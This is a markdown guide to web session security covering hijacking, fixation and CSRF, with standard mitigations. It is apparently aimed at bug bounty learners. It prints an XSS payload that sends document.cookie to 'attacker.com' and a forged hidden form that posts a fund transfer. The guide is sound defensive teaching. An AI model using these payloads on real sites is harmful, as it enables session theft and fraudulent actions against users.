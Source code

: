 # Session Security

[Relative Cheat Sheet](./session-security-cheat.md)

## Overview
Session security vulnerabilities occur when the mechanisms used to manage user sessions—typically through cookies or tokens—are poorly implemented. These vulnerabilities allow attackers to hijack active sessions, fix session identifiers to gain unauthorized access, or forge requests to perform actions on behalf of users. Common issues include weak session ID generation, improper session timeouts, and insufficient protection against Cross-Site Request Forgery (CSRF). Understanding these risks is crucial for securing web applications and identifying exploitable weaknesses in bug bounty programs.

## Session Hijacking
- **Description**: Session hijacking involves an attacker stealing a valid session token, often through techniques like Cross-Site Scripting (XSS) or network sniffing. Once obtained, the attacker can impersonate the victim, accessing their account without credentials.
- **Examples**: An XSS payload like `<script>new Image().src='http://attacker.com/?c='+document.cookie;</script>` sends the session cookie to the attacker's server. Weak transport (HTTP instead of HTTPS) allows sniffing via tools like Wireshark.
- **Mitigation**: Set the `HttpOnly` flag to prevent JavaScript access to cookies, use the `Secure` flag to enforce HTTPS, and employ encryption (TLS) to protect transmission.

## Session Fixation
- **Description**: In session fixation, an attacker provides a victim with a known session ID before authentication. If the application accepts this ID post-login without regeneration, the attacker can use it to hijack the session.
- **Examples**: An attacker sends a link with `?sessionid=abc123` to the victim. After login, the same ID remains active, allowing the attacker to reuse it.
- **Mitigation**: Generate a new session ID upon successful authentication and invalidate the old one. Implement session ID rotation to prevent reuse of pre-set values.

## CSRF (Cross-Site Request Forgery)
- **Description**: CSRF tricks a user into performing actions on a site where they are authenticated, typically via a forged HTTP request (GET or POST) from another domain. This exploits the trust a site has in the user’s browser session.
- **Examples**: A malicious site hosts a hidden form `<form action="https://bank.com/transfer" method="POST"><input type="hidden" name="amount" value="1000">` that submits when loaded, transferring funds if the user is logged into `bank.com`.
- **Mitigation**: Use unique, per-request CSRF tokens validated server-side, apply the `SameSite` cookie attribute (e.g., `SameSite=Strict`), and restrict sensitive actions to POST with token checks.

## Additional Considerations
- **Session Timeout**: Sessions should expire after a reasonable period (e.g., 15-30 minutes of inactivity for sensitive apps) to limit exposure if a token is compromised. Implement absolute timeouts (e.g., 24 hours) for added security.
- **Entropy and Randomness**: Session IDs must be cryptographically random (e.g., 128-bit or more) to resist brute-force attacks. Weak IDs (e.g., sequential numbers) are easily guessed.
- **Logout Functionality**: Ensure logout invalidates the session ID server-side, not just client-side, to prevent reuse.

## Prevention Strategies
- Enforce strong, random session IDs with sufficient entropy (e.g., UUID v4 or secure random generators).
- Set appropriate session timeouts based on application sensitivity, balancing security and user experience.
- Use the `SameSite` attribute to mitigate CSRF, combined with secure cookie flags and token validation.
- Regularly audit session management code for weaknesses, using tools like OWASP ZAP to simulate attacks.

This guide provides a detailed foundation for understanding session security, drawing from web security best practices and the provided cheat sheet. Explore further with resources like [OWASP Session Management](https://owasp.org/www-community/attacks/Session_fixation).